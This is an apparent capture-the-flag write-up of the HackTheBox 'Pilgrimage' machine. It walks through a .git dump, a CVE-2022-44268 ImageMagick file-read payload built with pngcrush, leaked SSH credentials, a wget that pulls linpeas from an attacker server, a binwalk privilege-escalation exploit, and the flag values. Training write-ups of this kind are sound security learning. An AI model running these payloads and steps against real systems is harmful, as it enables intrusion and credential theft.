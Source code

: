 # Pilgrimage

Created: July 6, 2023 11:04 PM
Tags: Easy

# Enumeration

```bash
nmap -sCV 10.10.11.219
```

![Untitled](images/Untitled.png)

## Webapp

![Untitled](images/Untitled%201.png)

On the home page we can see a file upload form which could be used to perform a file upload exploit. [https://book.hacktricks.xyz/pentesting-web/file-upload](https://book.hacktricks.xyz/pentesting-web/file-upload)

In the menu source code we can see that the backend is using php therefore we can try to upload php files and access them after to see if our code is executed or not.

![Untitled](images/Untitled%202.png)

Here is an example of the php file to POC a RCE in our app:

```php
<?php

exec('ls', $output);

?>
```

When trying to upload this file you will face an issue, the webapp doesn’t allow you to upload a php file. This is due to the html input tag which contains an accept parameter allowing only png and jpeg files.

![Untitled](images/Untitled%203.png)

To bypass this 2 techniques could work:

- upload the file with 2 extensions such as `file.php.png`
- change the html in our browser to accept php file but this can only work if the check isn’t also done in the backend

## .git directory exposed

![Untitled](images/Untitled%204.png)

→ index file

![Untitled](images/Untitled%205.png)

### Dump the .git content

Using the `git-dumper` [https://github.com/arthaud/git-dumper](https://github.com/arthaud/git-dumper) utility we can gather the content of the backend and to look into the files content.

![Untitled](images/Untitled%206.png)

As we can see through the magick binary the backend is using `ImageMagick` to manipulate the images. When looking for ImageMagick exploitation paths on the web I found a few interesting pages:

- [https://www.synacktiv.com/en/publications/playing-with-imagetragick-like-its-2016](https://www.synacktiv.com/en/publications/playing-with-imagetragick-like-its-2016) & [https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/) : Didn’t manage to make the exploits from these pages work
- [https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC) : This one is based on CVE-2022-44268 which works on `magick 7.1.0-49` . You can check the version of the binary running

```php
./magick -version
```

However this fails because the binary isn’t compatible with my pc architecture (arm64).

![Untitled](images/Untitled%207.png)

→ Therefore I choose to test it the hard by creating the image following and the POC and see if it works or not and surprise it works !

```php
convert -size 320x240 xc:skyblue input.png
pngcrush -text a "profile" "/etc/hosts" input.png crushed_input.png
exiv2 -pS crushed_input.png #verify the output

### Upload the crushed_input.png image on pilgrimage.htb
### Follow the link that the app responds to us and download the image that appears
### Run the following steps on the downloaded image

identify -verbose download.png
python3 -c 'print(bytes.fromhex("<HEX_CONTENT>").decode("utf-8"))'
```

Here is how you identify the `HEX_CONTENT` value:

![Untitled](images/Untitled%208.png)

After running the python command to decode the hexadecimal output we can clearly see the output of the shell command we injected in our image:

We can now repeat this to further explore the server we are targeting.

## Initial Access

Looking for the an initial access i tried to access common files to get information about the host:

- /etc/passwd

![Untitled](images/Untitled%209.png)

- /var/db/pilgrimage

From the `login.php` we collected in the git dump we can see a full path to a database file which is used for authentication

![Untitled](images/Untitled%2010.png)

By collecting this file we can see the content of the sqlite database. However when using the standard process given in the POC the HEX decoding to UTF-8 fails and therefore I ended up using an online tool such as [https://www.duplichecker.com/hex-to-text.php](https://www.duplichecker.com/hex-to-text.php) or [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/). Now we can read the the database content, this due to the fact that sqlite is a database written in plain-text into text files, and figure some default credentials along with the user we created (test:test):

![Untitled](images/Untitled%2011.png)

→ emily:abigchonkyboi123
As emily is the user we found in the /etc/passwd file this seems like a very promising initial access to the host via ssh.

```bash
ssh emily@pilgrimage.htb
# enter abigchonkyboi123
```

Et voila

![Untitled](images/Untitled%2012.png)

## First flag

The first flag can be found in the `user.txt` file:

```bash
d5e6dcc948db1aa7a694d06d1795d506
```

# Host Enumeration

## Linpeas

Being on a linux host we run linpeas to automate some of the host enumeration tasks.

To do so:

- first download [linpeas.sh](http://linpeas.sh) from their webpage: http://linpeas.sh
- put in a directory which you can expose and start a basic python web server to expose the file system:

```bash
python -m http.server 8000
```

- from the target use wget to collect the script

```bash
wget <attacker_VPN_IP>:8000/linpeas.sh
```

- make the script executable and run it

```bash
chmod +x linpeas.sh
./linpeas.sh
```

→ Nothing interesting really pops out

## Pspy

Through pspy we can that the [malwarescan.sh](http://malwarescan.sh) script is launched frequently to make sure that inotifywait is running on the /var/www/pilgrimage.htb/shrunk directory waiting for the creation of new files

![Untitled](images/Untitled%2013.png)

Here is the content of malwarescan.sh:

![Untitled](images/Untitled%2014.png)

We can test this by creating a new file under /var/www/pilgrimage.htb/shrunk and see what happens with pspy:

```bash
touch /var/www/pilgrimage.htb/shrunk/test.sh
```

![Untitled](images/Untitled%2015.png)

As we can when inotifywait catches a new the binwalk binary is executed onto it. By looking at this binary help we can find it’s version and by googling it we can easily find an exploit to build an image that will allow you to get the root access.

![Untitled](images/Untitled%2016.png)

# Privilege Escalation

[https://www.exploit-db.com/exploits/51249](https://www.exploit-db.com/exploits/51249)

![Untitled](images/Untitled%2017.png)

→ root shell

```bash
cat /root/root.txt
7d8c6af104c86b24ec0af8245a93171d
```
